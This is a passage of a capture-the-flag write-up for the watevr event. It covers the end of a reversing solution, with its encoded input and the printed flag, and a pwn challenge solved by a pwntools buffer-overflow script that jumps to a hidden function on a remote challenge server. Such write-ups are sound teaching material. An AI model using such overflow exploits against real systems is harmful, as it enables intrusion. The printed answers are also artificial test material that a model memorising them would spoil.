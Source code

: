 ```cpp
      m[(int)ans] = i;
  }
  for(auto i: m) {
    cout<<i.first<<": "<<i.second<<endl;
  }
  string s = "give_me_the_flag_please";
  for(char c: s) {
    cout<<m[c]<<" ";
  }
  cout<<endl;
  return 0;
}
```

Now, what remains is to get the enoced values corresponding to "give_me_the_flag_please". The most thing dut to which I was stuck for some time was to add the encoding for the NULL character at the end as well (here it was 0). So final input is - 38 118 79 95 127 109 95 127 129 91 95 127 20 114 15 38 127 73 114 95 15 124 95 0.

The flag is - **watevr{oops_1_f0rg0t_to_use_r4ndom_k3ys!_youtube.com/watch?v=BaACrT6Ydik}**

&nbsp;  

___

# Pwn Challenges

## Voting Machine 1

File: [kamikaze](/files/watevr_files/kamikaze)

This is a buffer overflow challenge as gets has been used. There is a function `super_secret_function`. We basically have to jump there as it prints the flag. Pretty straightforward.

![](/images/watevr_images/vm_1.png)

The offset of the crash is calculated using gef's pattern create and pattern search functionality.

My exploit code - 

```python
from pwn import *
# context.log_level = 'debug'
p = process("./kamikaze")
e = ELF('./kamikaze')
p = remote("13.48.67.196", 50000)

offset = 10

p.recvuntil(': ')

func = 0x0000000000400807

payload = "A"*offset
payload += p64(func)

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

